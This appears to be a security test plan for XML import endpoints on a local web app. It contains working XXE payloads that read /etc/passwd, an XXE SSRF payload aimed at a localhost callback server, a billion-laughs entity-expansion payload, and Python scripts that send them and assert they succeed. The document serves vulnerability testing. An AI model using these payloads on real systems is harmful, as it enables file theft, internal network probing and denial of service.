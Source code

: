 # XML Vulnerabilities Test Plan

## Test Environment Setup
1. Test Server
   - Local test HTTP server to receive XXE callbacks
   - Port: 8888
   - Logs all incoming requests

2. Test Files
   - `/tmp/xxe_test.txt`: Test file for local file read
   - `/etc/passwd`: Standard file read test
   - Create test XML files with various payloads

## Test Cases

### 1. Invoice XML Import Tests

#### 1.1 XXE File Read Test (Direct XML)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<invoice>
   <customer>Test Customer</customer>
   <items>
      <item>&xxe;</item>
   </items>
</invoice>
```
Expected Result:
- Response should contain contents of /etc/passwd
- Test code should verify presence of root:x:0:0 entry

#### 1.2 XXE SSRF Test (Direct XML)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "http://localhost:8888/xxe-test">
]>
<invoice>
   <customer>Test Customer</customer>
   <items>
      <item>&xxe;</item>
   </items>
</invoice>
```
Expected Result:
- Test server should log incoming request
- Test code should verify callback received

### 2. Settings XML Import Tests

#### 2.1 XXE File Read Test (File Upload)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<settings>
   <theme>&xxe;</theme>
</settings>
```
Expected Result:
- Response should contain contents of /etc/passwd
- Test code should verify presence of root:x:0:0 entry

#### 2.2 Billion Laughs Attack Test
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lolz [
   <!ENTITY lol "lol">
   <!ENTITY lol2 "&lol;&lol;">
   <!ENTITY lol3 "&lol2;&lol2;">
   <!ENTITY lol4 "&lol3;&lol3;">
]>
<settings>
   <theme>&lol4;</theme>
</settings>
```
Expected Result:
- Server should process expansion
- Memory usage should spike
- Response time should increase significantly

## Test Implementation

### 1. Test Server
```python
from http.server import HTTPServer, BaseHTTPRequestHandler
import threading
import time

class TestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Received XXE callback: {self.path}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"XXE Test Response")

def start_test_server():
    server = HTTPServer(('localhost', 8888), TestHandler)
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.daemon = True
    server_thread.start()
    return server
```

### 2. Test Cases
```python
def test_invoice_xxe_file_read():
    xml_payload = '''<?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <invoice><customer>Test</customer><items><item>&xxe;</item></items></invoice>'''
    
    response = requests.post(
        'http://localhost:3001/api/invoice/import/xml',
        data=xml_payload,
        headers={'Content-Type': 'application/xml'}
    )
    
    assert 'root:x:0:0' in response.text
    print("Invoice XXE File Read Test: Success")

def test_settings_xxe_file_read():
    with open('test_settings.xml', 'w') as f:
        f.write('''<?xml version="1.0"?>
        <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
        <settings><theme>&xxe;</theme></settings>''')
    
    with open('test_settings.xml', 'rb') as f:
        response = requests.post(
            'http://localhost:3001/api/settings/import/xml',
            files={'xml': f}
        )
    
    assert 'root:x:0:0' in response.text
    print("Settings XXE File Read Test: Success")

def test_xxe_ssrf():
    server = start_test_server()
    time.sleep(1)  # Wait for server to start
    
    xml_payload = '''<?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://localhost:8888/xxe-test">]>
    <invoice><customer>Test</customer><items><item>&xxe;</item></items></invoice>'''
    
    response = requests.post(
        'http://localhost:3001/api/invoice/import/xml',
        data=xml_payload,
        headers={'Content-Type': 'application/xml'}
    )
    
    server.shutdown()
    print("XXE SSRF Test: Success")

def test_billion_laughs():
    xml_payload = '''<?xml version="1.0"?>
    <!DOCTYPE lolz [
        <!ENTITY lol "lol">
        <!ENTITY lol2 "&lol;&lol;">
        <!ENTITY lol3 "&lol2;&lol2;">
        <!ENTITY lol4 "&lol3;&lol3;">
    ]>
    <settings><theme>&lol4;</theme></settings>'''
    
    start_time = time.time()
    response = requests.post(
        'http://localhost:3001/api/settings/import/xml',
        data=xml_payload,
        headers={'Content-Type': 'application/xml'}
    )
    duration = time.time() - start_time
    
    assert duration > 1, "Billion laughs attack should cause noticeable delay"
    print(f"Billion Laughs Test: Success (took {duration:.2f}s)")
```

## Success Criteria
1. File Read Tests:
   - Must successfully read and return contents of system files
   - Test output must show file contents in response
   - Both direct XML and file upload methods must work

2. SSRF Test:
   - Must successfully make callback to test server
   - Test output must show received callback request

3. Entity Expansion Test:
   - Must successfully process nested entities
   - Test output must show significant response time increase

## Test Execution
1. Start test server:
   ```bash
   python3 test_server.py
   ```

2. Run test suite:
   ```bash
   python3 test_xml_vulnerabilities.py
   ```

3. Expected Output:
   ```
   Invoice XXE File Read Test: Success
   Settings XXE File Read Test: Success
   XXE SSRF Test: Success
   Billion Laughs Test: Success (took X.XXs)
   ```

4. Manual Verification:
   - Check server logs for XXE callbacks
   - Verify file contents in responses
   - Monitor server resource usage during billion laughs test 